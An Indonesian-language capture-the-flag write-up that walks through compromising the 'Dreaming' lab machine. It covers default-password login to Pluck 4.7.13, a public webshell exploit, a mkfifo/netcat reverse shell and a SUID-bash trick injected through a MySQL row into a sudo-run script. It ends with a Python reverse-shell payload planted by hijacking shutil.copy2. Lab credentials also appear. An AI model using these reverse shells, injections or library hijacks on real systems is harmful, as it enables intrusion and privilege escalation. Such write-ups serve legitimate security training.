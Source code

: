scan nmap pada IP target

```shell
nmap -A IP-target -oN zcan
...
...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Selanjutnya kita dapat buka port 80 di browser, dan hasilnya adalah apache2.
lakukan enumerating menggunakan gobuster

```shell
gobuster dir -u http://IP-target -w /opt/dirbuster/directory-list-2.3-small.txt | tee gobed1
...
...
/app                  (Status: 301) [Size: 310] [--> http://IP-target/app/]
```

jika kita buka link tersebut, maka akan ada direktori `pluck-4.7.13`.
kita bisa melakukan enum lagi pada `http://IP-target/app/pluck-4.7.13`,
namun jika kita buka pada `pluck` itu saja, kita akan dapat melihat `admin`
pada bagian footer website dreaming tersebut, yang mana jika dibuka maka
akan muncul login page.

pada login page, kita dapat coba memberikan beberapa konfigurasi
default untuk password, misalnya

```
admin
admin123
admin12345
password
password123
...
```

dan salah satunya akan berhasil. Setelah berhasil kita dapat mencari
vuln dari `pluck-4.7.13`. Dan kita menemukannya di [exploitdb](https://www.exploit-db.com/exploits/49909)
selanjutnya download exploit tersebut. lalu run exploit dengan cara

```shell
python3 49909.py <IP-target> <port> password /app/pluck-4.7.13
...
...
...
Uploaded Webshell to: http://IP-target:port/app/pluck-4.7.13/files/shell.phar
```

kita dapat langsung mengunjungi link tersebut untuk melihat filenya.
ketika file dibuka, maka akan muncul shell, dari sini kita dapat
melakukan revshell menggunakan `mkfifo` dengan cara

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP-local port >/tmp/f
```

tidak lupa kita juga perlu menyiapkan listener di local

```shell
nc -lvnp port
```

jika command `mkfifo` sebelumnya di run, maka akan ada session baru
yang terbuka pada netcat. selanjutnya kita dapat menggunakan linpeas
untuk melakukan enumerasi vuln pada instance, dengan cara download linpeas
pada local, lalu setup python simple server dan download linpeas yang
ada di locak ke target dengan wget. jika terjadi error saat download
dari local, kita dapat pergi ke `/tmp` dir pada target terlebih dahulu.
jika sudah kita dapat ubah file ke exec dengan `chmod +x linpeas.sh`.
lalu run dengan cara `./linpeas.sh`.

berikut adalah beberapa hasil

```shell
...
╔══════════╣ Users with console
death:x:1001:1001::/home/death:/bin/bash
lucien:x:1000:1000:lucien:/home/lucien:/bin/bash
morpheus:x:1002:1002::/home/morpheus:/bin/bash
root:x:0:0:root:/root:/bin/bash
...
...
╔══════════╣ Executable files potentially added by user (limit 70)
...
2023-08-25+16:15:36.0122544440 /home/death/getDreams.py
2023-08-07+23:36:32.8119905200 /opt/test.py
2023-07-28+16:20:07.4826775880 /var/www/html/app/pluck-4.7.13/data/settings/pass.php
...
...
╔══════════╣ Unexpected in /opt (usually empty)
total 16
drwxr-xr-x  2 root   root   4096 Aug 15 12:45 .
drwxr-xr-x 20 root   root   4096 Jul 28 22:35 ..
-rwxrw-r--  1 death  death  1574 Aug 15 12:45 getDreams.py
-rwxr-xr-x  1 lucien lucien  483 Aug  7 23:36 test.py
...
╔══════════╣ Unexpected in root
/kingdom_backup
/swap.img
...
...
╔══════════╣ Searching passwords in history files
...
/home/lucien/.bash_history:mysql -u lucien -plucien42DBPASSWORD
/home/lucien/.bash_history:cat .mysql_history
...
...

```

ketika kita cek `/var/www/html/../../../../pass.php` kita dapat hash value

```
b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86
```

dan ketika dicek dengan `hashid`

berikut adalah hasilnya setelah crack password

```shell
b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86:password
```

selanjutnya, dari file yang ada di `/opt`, kita dapat melihat isinya,
file `test.py` ternyata berisi password dari Lucien, yaitu

```
lucien:HeyLucien#@1999!
```

kita dapat menggunakan creds ini untuk login ke ssh.
jika sudah, kita akan mendapat flag pertama, yaitu
milik Lucien di `lucien_flag.txt`. karena kita sudah terkoneksi
di ssh dengan user lucien, kita dapat melakukan `sudo -l` untuk
mengetahui cmd apa saja yang dapat di run oleh Lucien. selain
itu, kita juga dapat melihat `.bash_history` milik Lucien.
nantinya kita akan menemukan creds lucien untuk mysql, yaitu

```
mysql -u lucien -plucien42DBPASSWORD
```

kita dapat coba login ke mysql, dan disana ada database bernama
`library` yang berisi tabel `dream`.

```sql
mysql> select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+
```

isi dari tabel `dream` sama dengan jika kita run command

```shell
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

yang mana merupakan command sudo yang dapat dijalankan
oleh user Lucien tanpa perlu password (bisa di cek dengan
`sudo -l`).sebenarnya terdapat dua file `getDreams.py`,
dalam `/home/death` dan `/opt`, Dalam file `getDreams.py`
dalam `/home/death` tidak dapat dilihat, namun `/opt` dapat
dilihat dan terlihat juga bahwa terdapat password dari user
Death, namun dalam kondisi redacted, selain itu ada hal
menarik yaitu terdapat kode yang akan melakukan eksekusi
command yaitu pada

```shell
cat /opt/getDreams.py
...
command = f"echo {dreamer} + {dream}"
shell = subprocess.check_output(command, text=True, shell=True)
print(shell)
...
```

karena target selanjutnya adalah Death, kita dapat mencari file
yang dimiliki oleh Death dengan cara

```shell
find / -type f -group death 2>/dev/null
```

namun sepertinya untuk saat ini hanya `getDreams.py yang dapat kita gunakan
sehingga kita dapat menambahkan data yang berupa command yang
copy `/bin/bash` ke `/tmp/bash` dengan ditambah SUID bit, dan
karena script `getDreams.py` dirun oleh Death, maka `/tmp/bash`
akan owned by Death, dengan cara, masuk ke mysql creds milik
Lucien, lalu masuk ke database `library`, selanjutnya masukkan
command berikut

```shell
mysql> INSERT INTO dreams (dreamer, dream) VALUES ('blank','$(cp /bin/bash /tmp/bash; chmod +xs /tmp/bash)');
```

selanjutnya kita dapat run `getDreams.py` dengan cara

```shell
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

setelahnya, kita dapat run bash dengan cara

```shell
/tmp/bash -p
...
bash-5.0$ whoami
death
bash-5.0$ cat /home/death/death_flag.txt
...
```

karena kita sudah menjadi user Death, kita dapat melihat 
isi dari `/home/death/getDreams.py`, dan hasilnya

```shell
# MySQL credentials
DB_USER = "death"
DB_PASS = "!mementoMORI666!"
DB_NAME = "library"
```

selanjutnya kita dapat login ke ssh sebagai Death.

dari section `unexpected in root` dari hasil linpeas
terdapat beberapa file yaitu 

```shell
/kingdom_backup
/swap.img
```

jika kita pergi ke home dir dari user Morpheus, kita
akan mendapat beberapa file, salah satu yang menarik
adalah `restore.py`, dan beruntungnya kita dapat melihat
isi dari file tersebut, yang mana hanya untuk backup isi
dari `kingdom` ke `kingdom`. yang menarik adalah library
yang digunakan di `restore.py` merupakan shutil, dimana
library tersebut dimiliki oleh Death di
`/usr/lib/python3.8/shutil.py`.

kita dapat memberikan script revshell python dengan
seperti berikut pada bagian function `copy2` karena
dalam `restore.py` penggunaan library shutil hanya
untuk memanggil function `copy2` dari library tersebut.

```python
import os
import pty
import socket

...

def copy2(src, dst, *, follow_symlinks=True):
    lhost = "IP-Local"
    lport = PORT
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((lhost, lport))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    os.putenv("HISTFILE",'/dev/null')
    pty.spawn("/bin/bash")
    s.close()
```

masukkan script tersebut ke `/usr/lib/python3.8/shutil.py`
pada bagian function `copy2`, jangan lupa ganti lhost dan
lport dengan IP-local dan port.
selanjutnya siapkan nc listener.

dan nantinya kita akan mendapat shell milik Morpheus,
lihat flag pada `morpheus@dreaming:~$ cat morpheus_flag.txt`
